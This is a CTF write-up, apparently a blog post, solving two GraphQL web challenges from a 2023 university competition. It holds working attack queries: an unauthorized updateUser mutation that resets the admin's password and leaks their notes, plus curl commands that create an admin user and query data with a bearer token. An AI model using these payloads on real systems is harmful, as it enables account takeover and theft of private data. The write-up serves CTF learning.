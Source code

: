 ```yaml
---
layout: article
title : SheHacksKE Intervasity CTF 2023 Writeup
tags: web graphql
---
```


# SheHacksKE Intervasity CTF 2023 Web Writeups

![image](https://github.com/k0imet/k0imet.github.io/assets/60982828/11161aea-e301-4f2c-a944-7ae8e5b79fbf)


- On friday the 22nd of September 2023 I had an opportunity to take part in the Annual Intervasity CTF from SheHacksKE with some friends from fr334aks under the alias "Seekers" which was partly online and also onsite at USIU Africa,
We ended up winning 🥇 beating atleast other 80 teams that had atleast a single solve in the CTF


## Graph1 

![image](https://github.com/k0imet/k0imet.github.io/assets/60982828/ed185ee7-3496-4482-af0f-c1942f213b00)


- This was a fairly easy challenge, all that was required of us was to query the flag using the GetFlag query that would fetch the flag from the Flagtable. 

![image](https://github.com/k0imet/k0imet.github.io/assets/60982828/ee7de725-3933-42db-8d2e-ebe167d54665)

Base64 decoding the encoded strings gives the flag :) 


## Graph2 

![image](https://github.com/k0imet/k0imet.github.io/assets/60982828/bbc99130-6875-4498-8fbf-aa85efe9f75e)


Spent sometime here as i haven't solved alot of graphql challenges before, but in the end it was worth it,
The challenge as the description said is for one to fetch or retrieve the hidden note,
This hidden note probably belonged to an admin.
I copied the Introspection Query from Graphql voyager to get a better understanding of the queries, available relationships etc. 


![image](https://github.com/k0imet/k0imet.github.io/assets/60982828/751ae80a-6fa6-406a-8122-fccc989fac6a)

I also used graphqlmap to gather more information as well, including mutations and potential injection points or queries that I missed.

![image](https://github.com/k0imet/k0imet.github.io/assets/60982828/90f555c9-c5c5-48c0-9dae-07c97c452657)

![image](https://github.com/k0imet/k0imet.github.io/assets/60982828/a88f540b-30aa-42eb-be2c-03cbbaf2af86)


### what I tried and failed 


- Creating a User with user id 1 :x:
- Forging the Session Key (Authentication bearer) to include isAdmin user property as True :x:
- Creating a User with isAdmin user property as True :x:
- Modifying The Note with ID 1 to any title and hence be able to read the new note :x:

### What worked 

- Modify User with ID 1 to our controlled password (?) and return the current data along with the admin notes :heavy_check_mark:
 

## Solution 

```bash 

GraphQLmap > dump_via_fragment
============= [SCHEMA] ===============
e.g: name[Type]: arg (Type!)

00: Query
        findNote[]: id (Int!), 
        userNotes[Notes]: 
        getusers[User]: 
        getFlag[FlagTable]: 
01: Notes
        id[ID]: 
        title[]: 
        body[]: 
        userId[]: 
        user[]: 
05: User
        id[ID]: 
        firstName[]: 
        lastName[]: 
        isAdmin[]: 
        email[String]: 
        password[]: 
        notes[Notes]: 
07: FlagTable
        id[ID]: 
        flag[]: 
08: Mutations
        addNote[]: body (String!), title (String!), 
        (?) mutation{addNote(body:"string",title:"string"){ result }}
        updateNote[]: body (String!), noteId (Int!), title (String!), 
        (?) mutation{updateNote(body:"string",noteId:1,title:"string"){ result }}
        deleteNote[]: id (Int!), 
        (?) mutation{deleteNote(id:1){ result }}
        createUser[]: email (String!), firstName (String!), lastName (String!), password (String!), 
        (?) mutation{createUser(email:"string",firstName:"string",lastName:"string",password:"string"){ result }}
        logIn[]: email (String!), password (String!), 
        (?) mutation{logIn(email:"string",password:"string"){ result }}
        updateUser[]: id (Int!), lastName (String!), password (String!), 
        (?) mutation{updateUser(id:1,lastName:"string",password:"string"){ result }}
09: addNote
        ok[]: 
        note[]: 
10: updateNote
        ok[]: 
        note[]: 
11: deleteNote
        ok[]: 
        note[]: 
12: createUser
        ok[]: 
        user[]: 
13: logIn
        ok[]: 
        tokens[]: 
14: Token
        id[ID]: 
        user[]: 
        accessToken[]: 
        refreshToken[]: 
15: updateUser
        ok[]: 
        user[]: 
16: __Schema
17: __Type
19: __Field
20: __InputValue
21: __EnumValue
22: __Directive
```

As you can see on the `updateUser` mutation graphqlmap provided us with a sample query that we can use to update user info as

```graphql
 updateUser[]: id (Int!), lastName (String!), password (String!), 
        (?) mutation{updateUser(id:1,lastName:"string",password:"string"){ result }}`

```

I later modified this query to  

```graphql 
mutation {
  updateUser(id: 1, lastName: "Admin", password: "admin") {
    ok
    user {
      id
      email
      firstName
      lastName
      password
      notes {
        id
        title
        body
      }
    }
  }
}

```
which can be defined as 

```graphql 

updateUser
  ok[]: 
  user[]:
    id[]
    email[]
    firstName[]
    lastName[]
    password[]
    notes[]:
      id[]
      title[]
      body[]

```
![image](https://github.com/k0imet/k0imet.github.io/assets/60982828/a5b2ab15-2c83-4a37-a22c-f8c768338a00)

- Decode for full flag

### Misc 

#### createuser 

```zsh
curl -X POST -H "Content-Type: application/json" --data '{ "query": "mutation { createUser(firstName: \"NewUser\", lastName: \"Admin\", email: \"newuser@admin.com\", password: \"EasyPassword123\", isAdmin: true) { ok user { id firstName lastName email isAdmin } } }" }' http://128.199.47.43:5000/graphql
```

#### login 

```zsh
curl -X POST \
-H "Content-Type: application/json" \
--data '{ "query": "mutation { logIn(email: \"koimet@koimet.com\", password: \"koimet") { ok tokens { accessToken refreshToken } } }" }' \
http://128.199.47.43:5000/graphql
```

#### GetUsers

```zsh
curl -X POST -H "Content-Type: application/json" -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTY5NTM3NTA1NCwianRpIjoiMDU3ZjY3YWYtNGRlYS00MWYzLTgwMTMtYmVkMDg3YTg0Yjc3IiwidHlwZSI6ImFjY2VzcyIsImlkZW50aXR5IjoibmV3dXNlckBhZG1pbi5jb20iLCJuYmYiOjE2OTUzNzUwNTQsImV4cCI6MTY5NTM3NTk1NH0.g0SJZtVyKQfdv-vlZJc8zfM9F4HRN00bMivuqn-RNe8" --data '{ "query": "{ getusers { firstName lastName isAdmin email password notes { id title body userId } } }" }' http://128.199.47.43:5000/graphql
```


#### userNotes 

```zsh
curl -X POST \
-H "Content-Type: application/json" \
-H "Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTY5NTM3NTA1NCwianRpIjoiMDU3ZjY3YWYtNGRlYS00MWYzLTgwMTMtYmVkMDg3YTg0Yjc3IiwidHlwZSI6ImFjY2VzcyIsImlkZW50aXR5IjoibmV3dXNlckBhZG1pbi5jb20iLCJuYmYiOjE2OTUzNzUwNTQsImV4cCI6MTY5NTM3NTk1NH0.g0SJZtVyKQfdv-vlZJc8zfM9F4HRN00bMivuqn-RNe8" \
--data '{ "query": "{ userNotes { id title body userId user { firstName lastName } } }" }' \
http://128.199.47.43:5000/graphql
```


## References 

⚫ [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/graphql)
⚫ [ctftime](https://ctftime.org/tasks/?hidden-tags=graphql)
